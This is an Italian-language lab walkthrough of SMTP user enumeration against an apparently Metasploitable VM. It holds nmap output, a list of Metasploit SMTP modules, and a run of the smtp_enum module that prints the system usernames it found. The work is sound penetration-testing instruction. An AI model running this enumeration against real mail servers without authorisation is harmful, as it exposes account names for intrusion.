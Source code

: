 # SMTP: Simple Mail Tranfer Protocol

SMTP è il protocollo standard per la trasmissione dei messaggi di posta elettronica. Questo protocollo è tanto utilizzato quanto datato, la sua definizione risale all'RFC 788 del 1981, anche se negli anni è stato diverse volte aggiornato. La macchina target espone un server SMPT sulla porta 25, rivediamo quindi il risultato dell'enumeration:

```
PORT      STATE  SERVICE     VERSION
25/tcp    open   smtp        Postfix smtpd
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Issuer: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2010-03-17T14:07:45
| Not valid after:  2010-04-16T14:07:45
| MD5:   dcd9 ad90 6c8f 2f73 74af 383b 2540 8828
|_SHA-1: ed09 3088 7066 03bf d5dc 2373 99b4 98da 2d4d 31c6
|_ssl-date: 2021-12-05T20:32:36+00:00; -25m48s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
```
Abbiamo quindi un server Postfix configurato per supportare comunicazioni crittografate a livello trasporto con ssl (SMTPS). Uno dei più diffusi exploit su questo protocollo è quello della cosiddetta SMTP enumeration, un attacco che utlilizza comandi quali `VRFY` o `EXPN`. Infatti ad esempio lanciando un comando `VRFY someuser` il server restituisce un messaggio con codice 550 se l'utente non esiste, con codice 250 se l'utente invece esiste. \'E quindi comprensibile il fatto che in molte implementazioni questi comandi siano disabilitati, ma spesso non lo sono ed è sempre utile per un attaccante provare un attacco.
Andiamo su `msfconsole` e cerchiamo un modulo che ci consenta di fare questo tipo di enumeration.

```
msf6 > search name:smtp

Matching Modules
================

   #   Name                                                    Disclosure Date  Rank       Check  Description
   -   ----                                                    ---------------  ----       -----  -----------
   0   auxiliary/server/capture/smtp                                            normal     No     Authentication Capture: SMTP
   1   exploit/windows/browser/communicrypt_mail_activex       2010-05-19       great      No     CommuniCrypt Mail 1.16 SMTP ActiveX Stack Buffer Overflow
   2   auxiliary/client/smtp/emailer                                            normal     No     Generic Emailer (SMTP)
   3   exploit/linux/smtp/haraka                               2017-01-26       excellent  Yes    Haraka SMTP Command Injection
   4   exploit/windows/smtp/mercury_cram_md5                   2007-08-18       great      No     Mercury Mail SMTP AUTH CRAM-MD5 Buffer Overflow
   5   exploit/windows/smtp/njstar_smtp_bof                    2011-10-31       normal     Yes    NJStar Communicator 3.00 MiniSMTP Buffer Overflow
   6   exploit/unix/smtp/opensmtpd_mail_from_rce               2020-01-28       excellent  Yes    OpenSMTPD MAIL FROM Remote Code Execution
   7   exploit/unix/local/opensmtpd_oob_read_lpe               2020-02-24       average    Yes    OpenSMTPD OOB Read Local Privilege Escalation
   8   exploit/unix/smtp/qmail_bash_env_exec                   2014-09-24       normal     No     Qmail SMTP Bash Environment Variable Injection (Shellshock)
   9   auxiliary/scanner/smtp/smtp_version                                      normal     No     SMTP Banner Grabber
   10  auxiliary/scanner/smtp/smtp_ntlm_domain                                  normal     No     SMTP NTLM Domain Extraction
   11  auxiliary/scanner/smtp/smtp_relay                                        normal     No     SMTP Open Relay Detection
   12  auxiliary/fuzzers/smtp/smtp_fuzzer                                       normal     No     SMTP Simple Fuzzer
   13  auxiliary/scanner/smtp/smtp_enum                                         normal     No     SMTP User Enumeration Utility
   14  auxiliary/dos/smtp/sendmail_prescan                     2003-09-17       normal     No     Sendmail SMTP Address prescan Memory Corruption
   15  exploit/unix/webapp/squirrelmail_pgp_plugin             2007-07-09       manual     No     SquirrelMail PGP Plugin Command Execution (SMTP)
   16  exploit/windows/smtp/sysgauge_client_bof                2017-02-28       normal     No     SysGauge SMTP Validation Buffer Overflow
   17  exploit/windows/smtp/mailcarrier_smtp_ehlo              2004-10-26       good       Yes    TABS MailCarrier v2.51 SMTP EHLO Overflow
   18  exploit/windows/email/ms07_017_ani_loadimage_chunksize  2007-03-28       great      No     Windows ANI LoadAniIcon() Chunk Size Stack Buffer Overflow (SMTP)
   19  auxiliary/scanner/http/wp_easy_wp_smtp                  2020-12-06       normal     No     WordPress Easy WP SMTP Password Reset


Interact with a module by name or index. For example info 19, use 19 or use auxiliary/scanner/http/wp_easy_wp_smtp

```
Il modulo di nostro interesse è il 13, lo scegliamo e vediamo quali opzioni vanno configurate con `show options`

```
msf6 auxiliary(scanner/smtp/smtp_enum) > show options

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                              Required  Description
   ----       ---------------                              --------  -----------
   RHOSTS                                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Usi
                                                                     ng-Metasploit
   RPORT      25                                           yes       The target port (TCP)
   THREADS    1                                            yes       The number of concurrent threads (max one per host)
   UNIXONLY   true                                         yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordli  yes       The file that contains a list of probable users accounts.
              sts/unix_users.txt

```

Va quindi inserito solo l'indirizzo della macchina target, digitando il comando `set RHOSTS 192.168.65.102` e siamo pronti a lanciare l'exploit.

```
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 192.168.56.102:25     - 192.168.56.102:25 Banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
[+] 192.168.56.102:25     - 192.168.56.102:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
[*] 192.168.56.102:25     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Abbiamo quindi scoperto una lunga lista di nomi utente presenti sulla macchina target.

